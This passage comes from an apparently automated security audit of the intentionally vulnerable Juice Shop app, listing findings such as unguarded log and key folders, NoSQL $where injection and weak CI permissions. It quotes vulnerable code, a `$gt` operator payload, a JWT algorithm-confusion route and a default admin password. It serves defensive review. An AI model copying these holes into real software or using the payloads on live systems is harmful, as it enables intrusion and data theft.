An attacker browsing `/support/logs` can enumerate all HTTP activity and extract URL-embedded tokens or PII from the log lines. Disclosure of all HTTP request details including URL-embedded tokens, user enumeration via IP + email patterns, and attacker reconnaissance for further attacks.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `app.use`('/support/logs', serveIndexMiddleware, serveIndex('logs', ...)) at `server.ts:281` has no `isAuthorized()` guard; combined log format captures full URL query strings.

```typescript
// server.ts:281

  /* /logs directory browsing */ // vuln-code-snippet neutral-line accessLogDisclosureChallenge
  app.use('/support/logs', serveIndexMiddleware, serveIndex('logs', { icons: true, view: 'details' })) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
  app.use('/support/logs', verify.accessControlChallenges()) // vuln-code-snippet hide-line
  app.use('/support/logs/:file', serveLogFiles()) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
```

**Fix:** Strip secrets and PII from every log sink and rotate any token that already leaked → ❷ [M-037](#m-037) — Restrict `/support/logs` to authenticated admin users and scrub sensitive query parameters from log lines

**Classification:** Error Information Disclosure · [CWE-532](https://cwe.mitre.org/data/definitions/532.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Files / Directories Accessible to External Parties

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:277`

**Issue:** At `server.ts:277-278`, the `/encryptionkeys` path is mounted with directory browsing (`serveIndex`) and file serving (`serveKeyFiles()`) without any `security.isAuthorized()` middleware. The directory contains `jwt.pub` (the RSA public key) and potentially other key material.

Downloading `jwt.pub` allows an attacker to confirm the `RS256` public key, enabling `RS256`→`HS256` JWT algorithm confusion attacks against the unguarded express-jwt configuration (see express-backend-001). RSA public key and any other files in the encryptionkeys directory are downloadable by unauthenticated users, directly enabling JWT forgery.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `app.use`('/encryptionkeys/:file', `serveKeyFiles()`) at `server.ts:278` has no `isAuthorized()` middleware before it.

```typescript
// server.ts:277

  /* /encryptionkeys directory browsing */
  app.use('/encryptionkeys', serveIndexMiddleware, serveIndex('encryptionkeys', { icons: true, view: 'details' }))
  app.use('/encryptionkeys/:file', serveKeyFiles())

```

**Fix:** ❷ [M-038](#m-038) — Add security.isAuthorized middleware before `/encryptionkeys` routes

**Classification:** Broken Access Control · [CWE-552](https://cwe.mitre.org/data/definitions/552.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:594`

**Issue:** `app.post('/rest/user/login', login())` at `server.ts:594` has no rate limiting middleware. The reset-password and 2FA routes do have rate limits; the login endpoint does not.

An attacker runs credential stuffing from a leaked credential list or brute-forces the admin password (`admin123` is the default, exposed at `routes/login.ts:60`). Attacker exhausts the credential space for common or leaked passwords, achieving account takeover without triggering any limit.

**Evidence:** ✓ verified - `app.post('/rest/user/login', login())` is registered without any `rateLimit()` middleware, confirmed by grepping `server.ts` for `rateLimit` near the login route registration.

```typescript
// server.ts:594

  /* Custom Restful API */
  app.post('/rest/user/login', login())
  app.get('/rest/user/change-password', changePassword())
  app.post('/rest/user/reset-password', resetPassword())
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-040](#m-040) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:310`

**Instances (17):** `server.ts:310`, `server.ts:311`, `server.ts:407`, `server.ts:419`, `server.ts:420`, `server.ts:421`, `server.ts:437`, `server.ts:440` … (+9 more)

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❷ [M-042](#m-042) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Untrusted npm Install/Postinstall Scripts Enabled

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/ci.yml:65`

**Instances (3):** 🟠 `.github/workflows/ci.yml:65`, 🟡 `Dockerfile:5`, 🟡 `package.json:88`

**Issue:** Multiple CI jobs run bare `npm install` without the `--ignore-scripts` flag: `ci.yml` lines 65 (coding-challenge-rsn), 85 (test), 125 (api-test), 175 (custom-config-test), 211 (e2e), and `release.yml` line 42. Without `--ignore-scripts`, npm executes `preinstall`, `install`, and `postinstall` lifecycle scripts from all dependencies and transitive dependencies.

If any npm package in `package.json` or its transitive closure is compromised (supply chain attack, typosquatting, account takeover of a maintainer) or if a malicious package is introduced via a PR, the postinstall script runs with full access to the CI environment. A compromised or malicious npm dependency can exfiltrate CI secrets (`CYPRESS_RECORD_KEY`, `HEROKU_API_KEY`, `GITHUB_TOKEN`) or inject malicious code into the build artifact deployed to Docker Hub and Heroku.

**Evidence:** ✓ verified - `npm install` without `--ignore-scripts` at `ci.yml:65` (and 5 additional job steps) combined with the absence of `package-lock.json` allows postinstall hooks from any resolved dependency to execute in the CI runner with full secret access.

```yaml
// .github/workflows/ci.yml:65
          node-version: ${{ env.NODE_DEFAULT_VERSION }}
      - name: "Install application"
        run: npm install
      - name: "Check coding challenges for accidental code discrepancies"
        run: npm run rsn
```

**Fix:** ❷ [M-043](#m-043) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Missing Workflow-Level Permissions Block

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** Ten of the thirteen workflows in `.github/workflows/` lack a top-level `permissions:` block: `ci.yml`, `release.yml`, `lint-fixer.yml`, `stale.yml`, `zap_scan.yml`, `frontend-bundle-analysis.yml`, `update-challenges-ebook.yml`, `update-challenges-www.yml`, `update-news-www.yml`, `rebase.yml`. When no `permissions:` block is present, the GITHUB_TOKEN inherits the organization/repository default - typically `contents: write`, `packages: write`, `pull-requests: write`, `issues: write`.

Any compromised step (a malicious npm postinstall script, a tag-hijacked third-party action, a MITM'd install script) in these workflows receives a write-all GITHUB_TOKEN. A compromised step in any unpermissioned workflow gains write access to repository contents, packages, issues, and pull-requests - sufficient to inject malicious code into the main branch, create releases, or modify Actions workflow files.

**Evidence:** ✓ verified - `ci.yml`, `release.yml`, `lint-fixer.yml`, and 7 other workflows contain no `permissions:` block at the workflow or job level, causing GITHUB_TOKEN to default to write-all inherited permissions.

```yaml
// .github/workflows/ci.yml:1
name: "CI/CD Pipeline"
on:
  push:
```

**Fix:** ❷ [M-044](#m-044) — Add explicit least-privilege permissions block to all GitHub Actions workflows

**Classification:** Supply-Chain Integrity · [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Pull_request_target ORG_ADMIN_TOKEN

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/pr-compliance.yml:4`

**Issue:** `pr-compliance.yml` uses the `pull_request_target` trigger (line 4), which runs in the context of the BASE repository even for PRs from external forks, providing the workflow with access to all repository secrets including `ORG_ADMIN_TOKEN` (line 438). The `ORG_ADMIN_TOKEN` is used to call `PUT /orgs/juice-shop/blocks/{username}` to block GitHub users.

The current implementation does not check out or run code from the PR - it only reads PR metadata via the GitHub API - but `pull_request_target` is inherently dangerous because future workflow modifications could introduce `actions/checkout@ref: ${{ github.event.pull_request.head.sha }}` or `run: node ${{ steps.script.outputs.file }}`, enabling a fork PR to trigger code execution with secret access. Exploiting `pull_request_target` with a checkout of fork code would give an external contributor access to `ORG_ADMIN_TOKEN`, enabling organization-wide administrative actions including member management, repo creation, and webhook manipulation.

**Evidence:** ✓ verified - `pr-compliance.yml` line 4 declares `pull_request_target` - a trigger that grants fork PRs access to base-repo secrets - and line 438 uses `ORG_ADMIN_TOKEN` (org admin scope), making this a high-privilege attack surface if the workflow is ever modified to execute PR-provided code.

```yaml
// .github/workflows/pr-compliance.yml:4

on:
  pull_request_target:
    types: [opened, edited, reopened]

```

**Fix:** ❷ [M-045](#m-045) — Add explicit guard against checkout of PR head code

**Classification:** Supply-Chain Integrity · [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Improper Access Control

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:369`

**Issue:** At `server.ts:369`, the authorization guard for `PUT /api/Products/:id` is commented out: `// app.put('/api/Products/:id', security.isAuthorized())`. The finale-rest auto-generated endpoint still handles PUT requests but does so without any authentication check.

Any unauthenticated HTTP client can send `PUT /api/Products/1` with an arbitrary body to overwrite any product's name, description, price, or image URL. Unauthenticated product record modification enabling price fraud, stored XSS via product description, and application defacement.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ◌ ambiguous - Auth guard line at `server.ts:369` is commented out; `finale.resource()` at `server.ts:500` still registers the PUT `/api/Products/:id` handler with no middleware.

```typescript
// server.ts:369
  /* Products: Only GET is allowed in order to view products */ // vuln-code-snippet neutral-line changeProductChallenge
  app.post('/api/Products', security.isAuthorized()) // vuln-code-snippet neutral-line changeProductChallenge
  // app.put('/api/Products/:id', security.isAuthorized()) // vuln-code-snippet vuln-line changeProductChallenge
  app.delete('/api/Products/:id', security.denyAll())
  /* Challenges: GET list of challenges allowed. Everything else forbidden entirely */
```

**Fix:** Add explicit server-side authorisation checks on every protected route → ❷ [M-047](#m-047) — Restore security.isAuthorized guard on PUT `/api/Products/:id`

**Classification:** Broken Access Control · [CWE-284](https://cwe.mitre.org/data/definitions/284.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · NoSQL Injection

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `routes/showProductReviews.ts:36`

**Issue:** The product reviews endpoint at `routes/showProductReviews.ts:36` executes `db.reviewsCollection.find({ $where: 'this.product == ' + id })`. MarsDB evaluates `$where` predicates as live JavaScript.

When the `noSqlCommandChallenge` is enabled, `id` is passed through `utils.trunc(req.params.id, 40)` - still 40 characters of attacker-controlled JavaScript. Attacker-controlled JavaScript executed in the MarsDB engine; event loop blocked for up to 2 seconds per request enabling denial-of-service; potential data exfiltration from the reviews collection.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `db.reviewsCollection.find({ $where: 'this.product == ' + id })` at `routes/showProductReviews.ts:36` concatenates the route parameter into a JavaScript-evaluated predicate string with no escaping.

```typescript
// routes/showProductReviews.ts:36
    const t0 = new Date().getTime()

    db.reviewsCollection.find({ $where: 'this.product == ' + id }).then((reviews: Review[]) => {
      const t1 = new Date().getTime()
      challengeUtils.solveIf(challenges.noSqlCommandChallenge, () => { return (t1 - t0) > 2000 })
```

**Fix:** Replace string concatenation in query operators with parameter binding → ❷ [M-031](#m-031) — Use parameterized database queries

**Classification:** Injection · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Exposure of Private Personal Information

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Real-time WebSocket Channel  ·  **Location:** `lib/challengeUtils.ts:70`

**Issue:** When any challenge is solved, `challengeUtils.sendNotification()` (line 70 of `challengeUtils.ts`) calls `globalWithSocketIO.io.emit('challenge solved', notification)`, broadcasting to ALL connected sockets. The `notification` object includes a `flag` field containing the CTF flag value (line 48: `utils.ctfFlag(challenge.name)`).

on every new socket connection, `registerWebsocketEvents.ts:30-32` iterates over all pending notifications and re-emits each one to the new socket. An attacker passively connects to the WebSocket and harvests CTF flag values for all previously solved challenges, undermining the integrity of the challenge system for all participants.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `globalWithSocketIO.io.emit('challenge solved', notification)` at `challengeUtils.ts:70` broadcasts the full notification object (including `flag`) to all sockets, and `registerWebsocketEvents.ts:30-32` re-plays all historical notifications to each new unauthenticated connection.

```typescript
// lib/challengeUtils.ts:70
    notifications.push(notification)

    if (globalWithSocketIO.io && (isRestore || !wasPreviouslyShown)) {
      globalWithSocketIO.io.emit('challenge solved', notification)
    }
```

**Fix:** ❷ [M-039](#m-039) — Scope challenge solved broadcasts to per-user authenticated socket rooms rather than broadcasting to all connections

**Classification:** Insecure Real-Time Channel · [CWE-359](https://cwe.mitre.org/data/definitions/359.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Uncontrolled Resource Consumption

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `routes/showProductReviews.ts:17`

**Issue:** A global `sleep()` function is injected at `routes/showProductReviews.ts:17-25` - a synchronous busy-wait loop capped at 2000ms. The `$where` query at line 36 evaluates attacker-controlled JavaScript in the MarsDB engine.

An unauthenticated attacker sends concurrent requests to `GET /rest/products/<payload>/reviews` with a JavaScript payload that calls `sleep(2000)`. Unauthenticated attacker can block `Node.js` event loop for up to 2 seconds per request via injected sleep; concurrent requests achieve sustained application-wide denial of service.

**Evidence:** ✓ verified - `global.sleep` is defined as a synchronous `while` loop at `routes/showProductReviews.ts:17-25`; the `$where` predicate at line 36 allows calling it via injected JavaScript in MarsDB queries.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-041](#m-041) — Remove global sleep injection and replace \$where with typed field filter

**Classification:** Injection · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · NoSQL Mass-Update

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `routes/updateProductReviews.ts:17`

**Issue:** The review update endpoint at `routes/updateProductReviews.ts:17-20` passes `req.body.id` directly as the MarsDB filter: `db.reviewsCollection.update({ _id: req.body.id }, { $set: { message: req.body.message } }, { multi: true })`. Any authenticated user can supply a MongoDB-style operator object as `id` (e.g., `{ "$gt": "" }`) to match ALL reviews and overwrite every review's message with arbitrary content.

No ownership check compares `user.data.email` against `review.author` before performing the update. An authenticated customer can overwrite all product reviews in the database, destroying review integrity and performing horizontal privilege escalation to act on behalf of all other users.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `req.body.id` flows unchecked into the MarsDB `update()` filter with `{ multi: true }` at `routes/updateProductReviews.ts:17-20`, allowing any authenticated user to mass-modify all review documents.

```typescript
// routes/updateProductReviews.ts:17
  return (req: Request, res: Response, next: NextFunction) => {
    const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
    db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
      { _id: req.body.id }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
      { $set: { message: req.body.message } },
```

**Fix:** ❷ [M-046](#m-046) — Add ownership check and reject non-string _id values

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Data disclosure

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + File Store)  ·  **Location:** `data/static/challenges.yml:1381`

**Issue:** Data disclosure through cleartext transport.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ◌ ambiguous - Credentials or session material cross the wire over a clear-text channel.

```yaml
// data/static/challenges.yml:1381
  name: 'CSRF' # FIXME No e2e test automation! No longer works in Chrome >=80 and Firefox >=100 or other latest browsers!
  category: 'Broken Access Control'
  description: 'Change the name of a user by performing Cross-Site Request Forgery from <a href="http://htmledit.squarefree.com">another origin</a>.'
  difficulty: 3
  hints:
```

**Fix:** Force TLS on every transport channel and reject downgrades → ❷ [M-002](#m-002) — Architecture review: validate Data disclosure through cleartext transport

**Classification:** Cryptographic Failures · [CWE-319](https://cwe.mitre.org/data/definitions/319.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

### 🟡 Medium (8)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:18`

**Issue:** `routes/login.ts` emits no structured log entry on successful or failed authentication. `routes/resetPassword.ts` similarly writes nothing to an audit trail on password change.

Credential abuse and account compromise go undetected; post-incident forensics cannot reconstruct the authentication timeline.

**Evidence:** ✓ verified - No `logger.info()` or equivalent structured log call appears in `routes/login.ts` or `routes/resetPassword.ts` - confirmed by grepping for log/audit/winston in those files.

**Fix:** ❸ [M-048](#m-048) — Add security audit logging

**Classification:** Cryptographic Failures · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Runs as root

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `test/smoke/Dockerfile:1`

**Issue:** IAC-002 triggered in test/smoke/Dockerfile: no non-root USER directive found. Containers running as root expand container-escape blast radius.

**Evidence:** ✓ verified

**Fix:** ❸ [M-008](#m-008) — Drop unnecessary privileges in build and runtime

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · ~~Improper Verification of Cryptographic Signature~~ ⚠

**Severity:** 🟡 Medium - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/:1`

**Issue:** IAC-040 triggered: no cosign, sigstore/cosign-installer, or actions/attest-build-provenance found in any workflow. Unsigned images cannot be verified for provenance.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ⚠ refuted

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-009](#m-009) — Sign and verify release artifacts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Incorrect Permission Assignment

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/lock.yml:1`

**Instances (2):** `.github/workflows/lock.yml:1`, `.github/workflows/pr-compliance.yml:1`

**Issue:** IAC-015 triggered in .github/workflows/lock.yml: permissions block present but does not set 'contents: read' as base - not minimal-privilege by default.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified

**Fix:** ❸ [M-010](#m-010) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `(missing):1`

**Issue:** IAC-030 triggered: no Dependabot npm ecosystem entry found. npm must be tracked for timely dependency security updates.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-011](#m-011) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:76`

**Issue:** `authenticatedUsers.tokenMap` and `authenticatedUsers.idMap` at `lib/insecurity.ts:72-93` are plain JavaScript objects that grow on every successful login via `put()` at line 76. Neither map has an eviction policy - entries are never removed when a JWT expires (6 hours after issuance) or when a user logs out.

Server process eventually exhausts available heap memory and crashes, denying service to all authenticated users.

**Evidence:** ✓ verified - `authenticatedUsers.put()` at `lib/insecurity.ts:76` adds entries to `tokenMap` and `idMap` with no corresponding eviction, TTL, or size cap.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-049](#m-049) — Add TTL-based eviction to the in-memory authenticated-user store

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Allocation of Resources without Limits

**Severity:** 🟡 Medium  ·  **Component:** [C-07](#c-07) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:19`

**Issue:** The Socket\.IO server is created with `new Server(server, { cors: { origin: 'http://localhost:4200' } })` at line 19-20 with no `maxHttpBufferSize`, connection count cap, or per-socket rate limit. An unauthenticated attacker opens thousands of concurrent WebSocket connections and floods the `verifyLocalXssChallenge`, `verifySvgInjectionChallenge`, or `notification received` handlers at high rate.

A single unauthenticated attacker can exhaust the `Node.js` event loop and degrade or deny WebSocket service for all connected users.

**Evidence:** ✓ verified - No `io.use()` rate-limit middleware, no `maxConnections` option, and no message-frequency guard appear in `registerWebsocketEvents.ts`; all event handlers execute synchronous mutations on shared state on every received message.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-050](#m-050) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-770](https://cwe.mitre.org/data/definitions/770.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Missing Authentication

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/Services/socket-io.service.ts:21`

**Issue:** `socket-io.service.ts:21` establishes the Socket\.IO connection with `io(window.location.origin, { path: ... })` at service construction time, before any authentication state is known.

Unauthenticated WebSocket connections allow any browser script or bot to receive server-pushed events and, if the server trusts inbound socket messages without authentication, to perform privileged actions.

**Evidence:** ✓ verified - `socket-io.service.ts:21` calls `io(window.location.origin, { path: ... })` without passing `auth: { token: localStorage.getItem('token') }` or any credential, establishing an unauthenticated WebSocket connection.

**Fix:** ❸ [M-051](#m-051) — Pass JWT in Socket\.IO auth handshake and validate it server-side before accepting any connection

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

### 🟢 Low (2)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Missing HEALTHCHECK instruction

**Severity:** 🟢 Low  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `Dockerfile:1`

**Instances (2):** `Dockerfile:1`, `test/smoke/Dockerfile:1`

**Issue:** IAC-003 triggered in Dockerfile: no HEALTHCHECK directive. Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

**Evidence:** ✓ verified

**Fix:** ❹ [M-012](#m-012) — Add a container healthcheck

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟢 Low  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `renovate.json:1`

**Issue:** IAC-033 triggered: no `renovate.json` or equivalent found. Renovate hosted-app mode may be active but is not detectable from the repo.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❹ [M-013](#m-013) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🔴 Critical | ? Inconclusive |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ⚠ Fully viable |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ⚠ Fully viable |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ? Inconclusive

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-001](#f-001) — Systemic XSS — `administration.component.ts:78` | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🔴 [F-001](#f-001) — Systemic XSS — `administration.component.ts:78` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**
